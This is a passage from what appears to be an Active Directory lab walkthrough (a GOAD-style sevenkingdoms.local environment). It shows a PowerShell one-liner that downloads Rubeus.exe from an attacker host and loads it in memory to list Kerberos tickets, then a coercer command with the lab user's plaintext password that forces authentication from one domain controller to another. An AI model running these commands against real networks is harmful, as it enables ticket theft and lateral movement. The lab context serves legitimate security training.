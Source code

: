 And then see the available tickets:

`$data = (New-Object System.Net.WebClient).DownloadData('http://10.4.10.99:8080/Rubeus.exe')`

`$assem = [System.Reflection.Assembly]::Load($data);`

`[Rubeus.Program]::MainString("triage");`

![](../../../../images/Pasted_image_20250113115134.png)

Now force a coerce of the KingsLanding to the Winterfell:

`coercer coerce -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell`

Continue some steps of the process by pressing the `c`.
![](../../../../images/Pasted_image_20250113115734.png)
